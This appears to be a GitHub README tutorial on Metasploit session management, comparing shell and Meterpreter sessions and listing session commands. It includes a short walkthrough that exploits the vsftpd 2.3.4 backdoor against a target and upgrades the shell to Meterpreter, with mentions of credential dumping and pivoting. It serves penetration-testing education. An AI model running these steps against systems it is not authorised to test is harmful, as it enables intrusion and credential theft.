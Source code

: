 ## Mastering Metasploit: Shell & Meterpreter Sessions

Metasploit is one of the most powerful penetration testing frameworks available today, providing security professionals, ethical hackers, and researchers with a robust set of tools for vulnerability exploitation, reconnaissance, and post-exploitation tasks. Developed by Rapid7, Metasploit enables users to simulate real-world cyberattacks, assess security defenses, and identify weaknesses before malicious actors do.

Among its many capabilities, session management is one of the most crucial aspects of post-exploitation. Sessions determine the level of access, interaction, and control that an attacker has over a compromised system. Understanding how to work with Shell and Meterpreter sessions in Metasploit is key to conducting effective security assessments.

Understanding Metasploit Sessions
When an exploit successfully compromises a target system, a session is created. This session acts as a communication channel between the attacker’s system and the compromised machine. Sessions can vary in terms of functionality, from a simple command shell to a fully interactive and stealthy post-exploitation environment like Meterpreter.

Types of Metasploit Sessions;

1️⃣ Shell Sessions – A basic command-line access to the target system, offering minimal functionality.
2️⃣ Command Shell Sessions – A slightly more interactive environment that allows system commands to be executed with better stability.
3️⃣ VNC Sessions – A graphical interface that enables GUI-based control over the compromised system.
4️⃣ HTTP/HTTPS Shells – These use HTTP/S communication to bypass firewalls and proxy restrictions, making them stealthier.
5️⃣ Java Shells – Payloads that exploit Java vulnerabilities to execute commands remotely.
6️⃣ PowerShell Sessions – Specifically for Windows systems, allowing deep integration with PowerShell scripting.
7️⃣ Android Meterpreter – A session type designed for Android devices, providing deep access to files, cameras, and system data.
8️⃣ PHP Web Shells – Used to compromise web servers via vulnerable web applications.
9️⃣ Custom Sessions – Tailor-made payloads generated using msfvenom for highly specific attack scenarios.

Shell vs. Meterpreter: Which One to Use?
While shell sessions provide only basic access to a target machine, Meterpreter offers a much more powerful and flexible approach to post-exploitation. Meterpreter is a dynamically extensible payload that allows for advanced reconnaissance, privilege escalation, file system manipulation, and pivoting within a network—all without ever writing to disk, making it stealthier.

Key Differences
Feature	Shell Session	Meterpreter Session
Functionality	Basic command execution	Advanced post-exploitation toolkit
Persistence	No built-in persistence	Can be made persistent
File System Access	Limited	Full file system access
Privilege Escalation	Manual	Automated with built-in commands
Stealth	Easily detected	Memory-resident, harder to detect
Networking	No pivoting capabilities	Can route traffic through target system
Session Management in Metasploit
After gaining access to a system, managing sessions efficiently is crucial. The following commands help in handling active sessions within Metasploit:

List active sessions:
bash
Copy
Edit
sessions -l
Interact with a specific session:
bash
Copy
Edit
sessions -i <session-id>
Upgrade a shell session to Meterpreter:
bash
Copy
Edit
sessions -u <session-id>
Kill a session:
bash
Copy
Edit
sessions -k <session-id>
Generating and Using Multiple Sessions
The ability to run multiple sessions is an advantage in penetration testing. The steps below outline how to initiate multiple sessions using Metasploit.

1️⃣ Start Metasploit

bash
Copy
Edit
sudo msfconsole
2️⃣ Search for an exploit or payload

bash
Copy
Edit
search vsftpd
3️⃣ Use an exploit and configure the target

bash
Copy
Edit
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS <target-IP>
set payload cmd/unix/interact
4️⃣ Execute the exploit

bash
Copy
Edit
exploit
5️⃣ View active sessions and upgrade shell to Meterpreter

bash
Copy
Edit
sessions -l
sessions -u 1
At this point, a Shell Session is upgraded to a Meterpreter Session, allowing deeper system access. With Meterpreter, one can manipulate files, dump credentials, escalate privileges, and pivot through a network to expand an attack surface.

Ethical Considerations and Responsible Usage
While Metasploit is a powerful penetration testing tool, its use must align with ethical hacking principles and legal regulations. Conducting unauthorized security assessments, exploiting systems without permission, or misusing these techniques can result in severe legal consequences.

🛑 This project is strictly for educational purposes. The author assumes no responsibility for any misuse or illegal activity. Users must ensure compliance with applicable cybersecurity laws and ethical guidelines.

Conclusion
Understanding Shell and Meterpreter sessions is an essential skill for cybersecurity professionals. While a basic shell provides minimal access, Meterpreter unlocks powerful post-exploitation capabilities that can be leveraged for in-depth security assessments. By mastering session management and payload deployment, security teams can strengthen defenses, mitigate vulnerabilities, and enhance organizational security postures.

🚀 Cybersecurity is a responsibility. Learn it, use it, and protect systems ethically!
